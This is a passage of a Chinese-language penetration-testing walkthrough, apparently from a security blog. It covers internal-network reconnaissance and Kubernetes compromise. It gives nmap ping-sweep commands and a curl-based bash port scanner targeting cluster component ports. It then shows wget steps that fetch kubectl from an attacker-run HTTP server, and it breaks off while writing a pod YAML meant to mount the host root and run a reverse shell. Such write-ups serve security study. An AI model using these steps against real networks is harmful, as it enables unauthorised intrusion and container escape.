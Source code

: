 – 先对 A 类地址进行探测，执行命令 `./nmap 10.0.0.1/16 -sn PE --min-rate 1000 -oG ip_scan.txt`  
– 对 B 类地址进行探测 `./nmap 172.0.0.0/16 172.16.0.0/12 -sn -PE --min-rate 1000 -oG ip_scan.txt`  
– 对输出结果中的 ip 进行过滤，执行命令 `cat ip_scan.txt |grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)'`

2.  编译好的 nmap 工具，对文本中的 IP 进行扫描会报错，因为缺失文件。编写简单的 shell 脚本调用 curl 对端口探测，探测端口为集群组件的默认端口，代码如下：

```
#!/bin/bash

for i in $(cat AllHosts\_up.txt)
do
        for j in 8080 10250 10255 6643 2379 30000 2375
           do
                curl $i:$j &>/dev/null
                    if \[ $? -eq 0 \]; then
                           echo "$i 开放了 $j 端口"
                           echo "$i:$j" >> portScan.txt
                   else
                           echo "$i 未开放 $j 端口"
                   fi
           done
done


```

简单测试结果如下：

![](https://blog.riskivy.com/wp-content/uploads/2019/02/63.png)

3.  在对 A 类网段探测过程中，发现有多个主机存在集群组件的默认端口。内网中开放了 K8S API 服务, 且可以未授权访问。下载 kubectl，对 K8S API 进行操作。访问 `https://dl.k8s.io/v1.9.3/kubernetes-client-linux-amd64.tar.gz` 下载文件至于服务器上，使用 python 开放 http 服务提供下载。执行如下命令：
    
    wget http://x.x.x.x/kubernetes-client-linux-amd64.tar.gz  
    tar -zxvf kubernetes-client-linux-amd64.tar.gz  
    cd kubernetes/client/bin  
    chmod +x ./kubectl  
    mv ./kubectl /usr/local/bin/kubectl
    

运行 kubectl version，返回版本信息，说明安装成功

![](https://blog.riskivy.com/wp-content/uploads/2019/02/55.png)

4.  通过 kubectl 创建 pod 并挂载根目录, 执行反弹 shell 命令。yaml 文件内容如下：
    
    apiVersion: v1  
    kind: Pod  
    metadata:  
    name: test  
    spec:  
    containers:
    